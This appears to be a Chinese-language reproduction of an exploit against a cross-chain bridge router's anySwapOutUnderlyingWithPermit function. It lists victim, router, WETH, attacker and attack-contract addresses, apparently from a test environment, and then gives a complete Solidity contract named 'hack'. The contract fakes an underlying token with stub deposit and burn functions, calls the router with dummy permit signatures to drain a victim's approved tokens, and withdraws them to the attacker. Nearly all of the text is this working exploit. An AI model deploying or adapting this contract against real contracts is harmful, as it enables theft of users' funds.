 受害用户地址：0x5B38Da6a701c568545dCfcB03FcB875f56beddC4

router合约地址：0xd8b934580fcE35a11B58C6D73aDeE468a2833fa8

weth合约地址：0xd9145CCE52D386f254917e481eB44e9943F39138

攻击者地址：0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2

攻击合约地址：0x87a0232dFAb2b8DCc7649277a985A917bcc987F2

攻击合约代码：

```solidity
pragma solidity ^ 0.8.0;
interface Irouter{
    function anySwapOutUnderlyingWithPermit(address,address,address,uint256,uint256,uint8,bytes32,bytes32,uint256) external;
}
interface IERC20 {
    function totalSupply() external view returns (uint256);
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
    function allowance(address owner, address spender) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function permit(address target, address spender, uint256 value, uint256 deadline, uint8 v, bytes32 r, bytes32 s) external;
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
    function transferWithPermit(address target, address to, uint256 value, uint256 deadline, uint8 v, bytes32 r, bytes32 s) external returns (bool);

    event Transfer(address indexed from, address indexed to, uint256 value);
    event Approval(address indexed owner, address indexed spender, uint256 value);
}
contract hack{
    address public underlying = 0xd9145CCE52D386f254917e481eB44e9943F39138;
    address public router = 0xd8b934580fcE35a11B58C6D73aDeE468a2833fa8;
    address public victim = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4;
    address public owner;
    constructor() public {
        owner = msg.sender;
    }
    function depositVault(uint amount, address to) public returns(bool){
        return true;
    }
    function withdraw() public{
        IERC20(underlying).transferFrom(address(this), owner, 50);
    }
    function steal() public {
        Irouter(router).anySwapOutUnderlyingWithPermit(victim, address(this), owner, 50, 1000000, 0,0,0,56);
    }
    function burn(address from, uint256 amount) public returns(bool){
        return true;

    }
}
```

